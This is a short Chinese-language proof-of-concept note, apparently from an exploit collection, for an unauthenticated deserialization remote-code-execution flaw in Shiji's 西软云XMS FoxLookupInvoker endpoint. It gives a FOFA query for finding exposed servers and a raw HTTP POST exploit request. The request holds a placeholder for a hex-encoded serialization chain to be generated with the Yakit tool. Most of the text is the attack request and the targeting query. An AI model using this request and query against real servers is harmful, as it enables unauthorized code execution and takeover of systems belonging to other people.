 ## 西软云XMS反序列化漏洞

西软云XMS /fox-invoker/FoxLookupInvoker接口处存在反序列化漏洞，未经身份认证的攻击者可利用此漏洞执行任意代码，获取服务器权限。

## fofa
```
app="shiji-西软云XMS"
```

## poc
```
POST /fox-invoker/FoxLookupInvoker/?return-exception=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Connection: close
 
{{hexdec(cb18x的序列化链)}
```
使用yakit 生成payload
![c5fe271fed6a284b93b64e1023b2b581](../../images/2b6a22d6-7125-4f43-ae6a-253a92d83d23.png)

![e79d4907bddf12878c085d3146d856bc](../../images/799da585-0c34-431e-baa8-f939b19610a3.png)

